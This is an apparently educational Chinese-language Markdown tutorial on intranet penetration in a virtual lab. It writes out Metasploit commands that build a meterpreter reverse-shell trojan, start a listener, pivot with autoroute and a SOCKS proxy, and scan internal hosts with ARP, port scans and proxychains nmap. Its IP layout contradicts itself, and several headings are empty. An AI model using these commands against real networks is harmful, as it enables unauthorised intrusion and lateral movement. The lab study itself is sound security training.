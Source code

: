 # 内网渗透
- 当渗透测试到达后渗透阶段时，我们拿到了位于公网主机的权限，并且通过该主机挂代理能够访问位于内网的机器。这时如果客户有内网渗透的需求，那么我们就要开始进行内网渗透了。
- 跳板攻击：利用已经被入侵的主机作为跳板来攻击网络中其他主机或访问由于路由问题而不能直接访问的内网主机。
## 0x01内网基础

**首先需要模拟一套已经完成渗透的内网环境出来**

1. 准备五台虚拟机（拓扑图如下）：

   - 一台Kali：内网IP为10.1.1.10，作为Hacker PC
   - 一台Win7 x64：内网IP为10.1.2.10，作为漏洞服务器
   - 一台Win Server 2003 x64：内网IP为10.1.2.10，作为攻击目标服务器
   - 一台m0n0wall：内网IP为10.1.1.1，公网IP为192.168.66.206
   - 一台m0n0wall：内网IP为10.1.2.1，公网IP为192.168.66.8

   ![内网渗透_1](./内网渗透/内网渗透_1.png)

2. 在Kali上生成木马，并进行监听

3. 在Win7上运行木马

4. 操控靶机

   ```
   // 生成木马
   # msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.66.206 LPORT=4444 -f exe > msf.exe
   ```

   ![内网渗透_2](./内网渗透/内网渗透_2.png)

   ```
   // 开启监听
   # msfconsole
   # msf6 > use exploit/multi/handler
   # msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
   # msf6 exploit(multi/handler) > set lhost 10.1.1.10
   # msf6 exploit(multi/handler) > exploit
   ```

   ![内网渗透_3](./内网渗透/内网渗透_3.png)

## 内网信息收集
## 判断是域环境还是非域环境
## 非域环境渗透
## 0x05内网转发及代理

- 使用meterpreter的自动路由进行转发

```
// 设置并查看自动路由
# meterpreter > run autoroute -s 192.168.10.0/24
# meterpreter > run autoroute -p
```

![内网渗透_4](.\内网渗透\内网渗透_4.png)

- 使用auxiliary/server/socks4a模块开启Socket代理

```
# msf6 > use auxiliary/server/socks4a
# msf6 exploit(socks4a) > set srvhost 10.1.1.10
# msf6 exploit(socks4a) > run
```

## 0x06内网环境及存活探测

- 利用ipconfig查看网络环境
- 利用arp扫描进行主机探测

```
# meterpreter > ipconfig
# meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.10.0/24
```

![内网渗透_5](.\内网渗透\内网渗透_5.png)

## 0x07内网主机端口扫描及服务探测

- 利用MSF的自动路由对目标机继续扫描


```
# msf6 > use auxiliary/scanner/portscan/tcp
# msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.10.12
# msf6 auxiliary(scanner/portscan/tcp) > set ports 443,80,22
# msf6 auxiliary(scanner/portscan/tcp) > set threads 20
# msf6 auxiliary(scanner/portscan/tcp) > exploit
```

![内网渗透_5](./内网渗透/内网渗透_6.png)

## 内网横向渗透
## 0x08内网转发/代理工具

### ProxyChains

> ProxyChains是为Linux操作系统而开发的转发工具

- 设置Socket代理

  > 使用auxiliary/server/socks4a模块开启代理

  ```
  # msf6 > use auxiliary/server/socks4a
  # msf6 exploit(socks4a) > set srvhost 10.1.1.10
  # msf6 exploit(socks4a) > run
  ```

- 使用ProxyChains

  1. 配置 /etc/proxychains.conf

    ```
   # vim /etc/proxychains.conf
   // 添加一条socks4代理
   # socks4 10.1.1.10 1080
    ```

  ![内网渗透_7](./内网渗透/内网渗透_7.png)

  2. 使用代理发送请求，搜集相关信息

    ```
   # proxychains nmap 192.168.10.12
    ```
